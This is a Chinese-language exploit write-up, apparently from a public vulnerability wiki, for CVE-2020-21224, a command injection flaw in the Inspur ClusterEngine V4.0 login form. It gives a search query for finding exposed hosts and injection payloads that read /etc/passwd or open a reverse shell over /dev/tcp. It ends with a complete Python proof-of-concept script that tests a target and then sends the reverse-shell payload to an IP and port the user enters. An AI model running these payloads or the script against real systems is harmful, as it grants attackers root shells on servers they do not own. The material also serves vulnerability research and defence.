# 浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

```
浪潮ClusterEngineV4.0
```

## 网络测绘

```
title="TSCEV4.0"
```

## 漏洞复现

登录页面如下


由于登录页面没有发现验证码，进行账号爆破


当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。





通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有


一个 ' ，系统将抛出异常。







进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常





定尝试发送 ' ' 来查看响应包。


我注意到 grep 命令错误，服务端的代码可能是这样


```shell
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```


尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测







尝试读取  **/etc/passswd**





尝试列目录





确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload







反弹 shell


```shell
op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```


payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell





上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法


```plain
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=test`$(cat /etc/passwd)`

{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}

反弹shell
op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```





## 漏洞POC


```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 浪潮ClusterEngineV4.0                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mIP          >>> xxx.xxx.xxx.xxx:9999                              \033[0m')
    print('+  \033[36mPORT        >>> 9999                                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=test`$(cat /etc/passwd)`"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
        etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
        if response.status_code == 200 and "root:x:0:0" in response.text:
            print("\033[32m[o]    目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
            POC_2(target_url)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def POC_2(target_url):
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    POC_1(target_url)
```


